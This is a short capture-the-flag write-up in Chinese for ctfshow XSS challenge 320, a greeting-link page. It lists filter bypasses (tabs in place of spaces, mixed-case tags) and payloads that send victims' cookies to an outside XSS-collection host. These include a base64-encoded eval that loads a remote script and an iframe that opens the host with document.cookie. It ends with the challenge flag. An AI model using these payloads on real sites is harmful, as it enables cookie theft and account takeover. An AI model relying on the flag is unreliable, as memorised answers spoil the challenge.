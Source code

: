 # ctfshow-xss320



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
圣诞快乐，写下祝福语，生成链接，发送给朋友，可以领取十个鸡蛋！
祝福语
请输入祝福语
 
生成链接
```

```html
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/

应该是过滤了script,img,空格

输入框输入
<Img sRC=//hk.sb/UfVb/test.jpg>

把空格用tab键替换就可以
    
<input	onfocus=eval(atob(this.id))	id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaGsuc2IveTd4eCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=	autofocus>

<iframe	onload="window.open('https://hk.sb/y7xx'+document.cookie)"></iframe>

ctfshow{ed748f0f-656c-44d6-9f14-6ff657709bb1}


```

